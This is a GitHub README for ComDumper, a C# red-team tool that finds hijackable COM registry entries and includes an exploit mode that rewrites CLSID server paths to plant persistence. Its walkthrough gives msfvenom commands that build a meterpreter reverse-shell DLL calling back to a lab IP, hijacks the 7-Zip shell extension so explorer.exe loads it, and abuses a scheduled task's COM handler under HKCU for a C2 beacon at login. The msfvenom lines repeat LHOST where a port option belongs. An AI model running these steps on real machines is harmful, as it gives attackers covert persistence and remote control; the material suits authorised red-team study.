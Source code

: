 # ComDumper

A Simple C# red team tool to enumerate and analyze COM registry objects for hijackable entries, missing binary paths, access control misconfigurations, and simulate persistence via registry modification.
For more details about COM exploitation demos, take a look at my [blog](https://yokaiswikie.gitbook.io/com-object-enumeration/).
## Compiling code using VS csc compiler

```powershell
csc /r:System.DirectoryServices.AccountManagement.dll ComDumper.cs /out:ComDumper.exe
# x64
csc /r:System.DirectoryServices.AccountManagement.dll ComDumper.cs /out:ComDumper64.exe /platform:x64
```
## Usage

![image](https://github.com/user-attachments/assets/f9120ac3-23bd-4ce0-a9d7-bb893ca6f537)

## Features

### Search and Dump CLSIDs

- `-sA`: Scan and dump all COM CLSIDs from the registry.
- Supports limiting the number of results with `-n <number>`.
- Output can be saved as a CSV file (`-o <file>`) or printed verbosely with `--verbose`.
  ```powershell
  .\ComDumper.exe -sA --verbose -n 2
  ```
![image](https://github.com/user-attachments/assets/1179ab96-24a0-4b42-86b7-e0809c8969fa)

dumping all COM CLSIDs to a CSV file
```powershell
.\ComDumper.exe -sA -o comCLSIDs.csv
```
![image](https://github.com/user-attachments/assets/de0ffc1f-512e-4498-99cf-aa074a004a40)

### Filtering Options for Search Results

- `-fg <group>`: Filter entries by registry group.
- `-fu <user>`: Filter entries writable by a specific user (e.g., `BUILTIN\Users`).
- `-fa <access>`: Filter entries based on access control.
- `-fo <owner>`: Filter entries by registry key owner.
- `--filter-access <string>`: Filter entries by partial access control string.
- `--missing` / `-m`: Filter entries where the COM server file (DLL or EXE) is missing from disk.
- `--vulnerable`: Filter entries considered vulnerable (missing or hijackable).
- `--hijackable`: Filter entries that are hijackable.
- `--unresolvedsid`: Filter entries with unresolved SIDs (e.g., `S-1-5-*`).
- 
Some filters, like missing, are better used when you have admin access while looking for persistence entries. Otherwise, they can sometimes falsely report files as missing simply because the program doesn’t have permission to read privileged locations like C:\Windows\System32\.

hunting for FullControl Access over a COM object we can use filters
```powershell
 .\ComDumper.exe -sA --verbose  -fa "FullControl" -fu "ippyokai"
```
Note that the user filter `-fu` also checks the group memberships of the user. Since my `ippyokai` user is a local admin, it will have a lot of FullControl access rights.
We can search for the explicit Write access for a user as follows or using regx.
```powershell
 .\ComDumper.exe -sA --verbose  -fa "COMMANDO\ippyokai (FullControl)"
```
![image](https://github.com/user-attachments/assets/92f120a3-3c63-485e-9c99-43f285713476)

### Individual CLSID Search

- `-s --clsid <CLSID>`: Query detailed information about a specific CLSID.
 From the previous example, we can take the 7-Zip shell extension CLSID `{23170F69-40C1-278A-1000-000100020000}` to get more info.
![image](https://github.com/user-attachments/assets/f4c5d3d0-6d4e-4e4f-aa29-d5e7b665d41f)

### Exploit Mode

- `-e --clsid <CLSID> --dll <path>`: Replace the COM DLL path in the registry for the specified CLSID.
- `-e --clsid <CLSID> --exe <path>`: Replace the COM EXE path in the registry for the specified CLSID.
- `--hkcu`: Apply the hijack under the current user registry hive (HKCU) instead of the local machine hive (HKLM).
For exploit mode, it’s simple: without --hkcu, the tool changes the registry entry to the given DLL or EXE. With the --hkcu option, it performs a hijack by adding a registry entry under HKCU to override the DLL from HKLM. Be careful to create a proper DLL that proxies calls to the original one to maintain system functionality. You can use FaceDancer, as I demonstrated in my blog.

We can create a simple proof of concept here since we have FullControl over the 7-Zip shell extension COM registry.
generate first a simple dll with  `msfvenome`
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=4444 -f dll -o shell.dll
```
Adding the dll. `ComDumper` backup it automaticaly so you can recover it later.
![image](https://github.com/user-attachments/assets/1c6b6196-004f-47da-a8f8-510de25985b7)

By navigating to a folder containing ZIP files, we can observe that `explorer.exe` loads `shell.dll`.
![image](https://github.com/user-attachments/assets/0bf130b5-aa07-48df-bebe-cfe1cedfcedc)

we have got meterpreter session.
![image](https://github.com/user-attachments/assets/737e31ff-e43d-44d2-9382-9279409a733d)

now we can recover it back.
![image](https://github.com/user-attachments/assets/43240580-fb13-46f9-8f2e-13a241b948fc)

For `--hkcu` mode, we can enumerate COM objects used by scheduled tasks using the [Get-ScheduledTaskComHandler.ps1]()https://github.com/enigma0x3/Misc-PowerShell-Stuff/blob/master/Get-ScheduledTaskComHandler.ps1 script, created by Matt Nelson and Matthew Graeber. I will might add a C# class to enumerate scheduled tasks later.

```powershell
. .\Get-ScheduledTaskComHandler
Get-ScheduledTaskComHandler -PersistenceLocations
```
We can take an example for this mode using `CacheTask`.
![image](https://github.com/user-attachments/assets/802b8c81-ed06-4cef-9ad7-f450a07c94f9)

We can verify that the entry comes from HKLM.
![image](https://github.com/user-attachments/assets/c6d32948-1398-4348-9d24-fa32e4a3a17c)

Generate a DLL as in the previous step.
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.136.138 LHOST=8443 -f dll -o Rabbit.dll
```

Now I'm going to use this DLL as a staged payload for Sliver C2. check too with out `--hkcu` we have got access denied cause can't write to HKLM directly.
![image](https://github.com/user-attachments/assets/7ce118a8-56c5-495c-a672-3317d4c0f9b5)

Re-login with any user, and the beacon call will be triggered.
![image](https://github.com/user-attachments/assets/27b44d28-1f1e-4dd2-adee-e1446dafc6fe)

Clean up again just remove the entry.
```powershell
$clsid = '{0358B920-0AC7-461F-98F4-58E32CD89148}'
$path = "HKCU:\Software\Classes\CLSID\$clsid"

if (Test-Path $path) {
    Remove-Item -Path $path -Recurse -Force
    Write-Host "[+] COM hijack removed from HKCU for CLSID $clsid"
} else {
    Write-Host "[-] No COM hijack found under HKCU for CLSID $clsid"
}
```

---

## 📚 References & Acknowledgements

I would like to acknowledge and thank the authors and contributors of the following outstanding resources and blogs that greatly enhanced my understanding of COM abuse techniques and persistence mechanisms:

- **Fakroud, Mohamed** – Playing Around COM Objects - Part 1, Red Teaming Dojo  
  https://mohamed-fakroud.gitbook.io/red-teamings-dojo/windows-internals/playing-around-com-objects-part-1

- **DerbyCon 2019** – COM Hijacking Techniques, Slideshare presentation  
  https://www.slideshare.net/slideshow/com-hijacking-techniques-derbycon-2019/169871173

- **SpecterOps Team** – Revisiting COM Hijacking, SpecterOps Blog (May 28, 2025)  
  https://specterops.io/blog/2025/05/28/revisiting-com-hijacking/

- **PentestLab Team** – Persistence: COM Hijacking, PentestLab Blog (May 20, 2020)  
  https://pentestlab.blog/2020/05/20/persistence-com-hijacking/

These resources provided valuable insights, technical deep-dives, and practical examples that were instrumental in shaping the development of this tool and the learning journey behind it.


